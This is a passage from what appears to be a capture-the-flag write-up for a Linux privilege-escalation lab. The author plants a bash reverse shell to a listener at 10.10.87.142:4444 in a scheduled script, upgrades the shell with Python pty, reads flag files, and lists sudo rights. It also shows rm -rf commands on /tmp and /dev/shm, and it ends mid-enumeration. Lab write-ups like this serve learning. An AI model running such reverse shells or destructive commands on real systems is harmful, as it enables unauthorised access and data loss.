 ```bash
rm -rf /dev/shm/
#echo "Here time is a great matter of essence"
rm -rf /tmp/
viktor@linuxagency:~$ 
```

<p>edited <code>47.sh</code></p>

```bash
viktor@linuxagency:/opt/scripts$ nano 47.sh
```

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.87.142/4444 0>&1 
```

<p>set up a listener</p>

```bash
:~# nc -nlvp 4444
```

<p>saved <code>47.sh</code></p>

```bash
:~# nc -nlvp 4444
...
dalia@linuxagency:~$ which python3
which python3
/usr/bin/python3
dalia@linuxagency:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
dalia@linuxagency:~$ ^Z
[1]+  Stopped                 nc -nlvp 4444
:~# stty raw -echo; fg
nc -nlvp 4444

dalia@linuxagency:~$ pwd
pwd
/home/dalia
dalia@linuxagency:~$ ls
ls
examples.desktop
flag.txt
dalia@linuxagency:~$ cat flag.txt
cat flag.txt
dalia{4a94a7a7bb4a819a63a33979926c77dc}
```

<p></p>

<p>4.3. What is silvio's flag?<br>
<code>silvio{657b4d058c03ab9988875bc937f9c2ef}</code></p>

```bash
dalia@linuxagency:~$ sudo -l
Matching Defaults entries for dalia on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dalia may run the following commands on linuxagency:
    (silvio) NOPASSWD: /usr/bin/zip
dalia@linuxagency:~$ sudo -l -l
Matching Defaults entries for dalia on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dalia may run the following commands on linuxagency:
```